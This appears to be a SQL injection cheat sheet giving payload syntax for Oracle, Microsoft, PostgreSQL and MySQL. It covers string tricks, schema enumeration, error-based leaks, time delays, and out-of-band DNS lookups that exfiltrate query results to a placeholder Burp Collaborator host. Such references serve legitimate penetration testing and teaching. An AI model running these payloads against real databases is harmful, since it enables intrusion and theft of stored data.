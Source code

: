 # SQLi_Cheatsheet

SQL injection cheat sheet

This SQL injection cheat sheet contains examples of useful syntax that you can use to perform a variety of tasks that often arise when performing SQL injection attacks.

#### String concatenation
You can concatenate together multiple strings to make a single string.


Oracle	'foo'||'bar'
Microsoft	'foo'+'bar'
PostgreSQL	'foo'||'bar'
MySQL	'foo' 'bar' [Note the space between the two strings]
CONCAT('foo','bar')
Substring
You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string ba.

Oracle	SUBSTR('foobar', 4, 2)
Microsoft	SUBSTRING('foobar', 4, 2)
PostgreSQL	SUBSTRING('foobar', 4, 2)
MySQL	SUBSTRING('foobar', 4, 2)
Comments
You can use comments to truncate a query and remove the portion of the original query that follows your input.

Oracle	--comment
Microsoft	--comment
/*comment*/
PostgreSQL	--comment
/*comment*/
MySQL	#comment
-- comment [Note the space after the double dash]
/*comment*/
Database version
You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

Oracle	SELECT banner FROM v$version
SELECT version FROM v$instance
Microsoft	SELECT @@version
PostgreSQL	SELECT version()
MySQL	SELECT @@version
Database contents
You can list the tables that exist in the database, and the columns that those tables contain.

Oracle	SELECT * FROM all_tables
SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
Microsoft	SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
PostgreSQL	SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
MySQL	SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
Conditional errors
You can test a single boolean condition and trigger a database error if the condition is true.

Oracle	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual
Microsoft	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END
PostgreSQL	1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)
MySQL	SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')
Extracting data via visible error messages
You can potentially elicit error messages that leak sensitive data returned by your malicious query.

Microsoft	SELECT 'foo' WHERE 1 = (SELECT 'secret')
> Conversion failed when converting the varchar value 'secret' to data type int.
PostgreSQL	SELECT CAST((SELECT password FROM users LIMIT 1) AS int)
> invalid input syntax for integer: "secret"
MySQL	SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret')))
> XPATH syntax error: '\secret'
Batched (or stacked) queries
You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

Oracle	Does not support batched queries.
Microsoft	QUERY-1-HERE; QUERY-2-HERE
QUERY-1-HERE QUERY-2-HERE
PostgreSQL	QUERY-1-HERE; QUERY-2-HERE
MySQL	QUERY-1-HERE; QUERY-2-HERE
Note
With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.

Time delays
You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

Oracle	dbms_pipe.receive_message(('a'),10)
Microsoft	WAITFOR DELAY '0:0:10'
PostgreSQL	SELECT pg_sleep(10)
MySQL	SELECT SLEEP(10)
Conditional time delays
You can test a single boolean condition and trigger a time delay if the condition is true.

Oracle	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
Microsoft	IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'
PostgreSQL	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
MySQL	SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')
DNS lookup
You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use Burp Collaborator to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

Oracle	
(XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:

SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
The following technique works on fully patched Oracle installations, but requires elevated privileges:

SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')
Microsoft	exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'
PostgreSQL	copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'
MySQL	
The following techniques work on Windows only:

LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')
SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
DNS lookup with data exfiltration

You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use Burp Collaborator to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.

Oracle	SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
Microsoft	declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')
PostgreSQL	create OR replace function f() returns void as $$
declare c text;
declare p text;
begin
SELECT into p (SELECT YOUR-QUERY-HERE);
c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';
execute c;
END;
$$ language plpgsql security definer;
SELECT f();
MySQL	The following technique works on Windows only:
SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
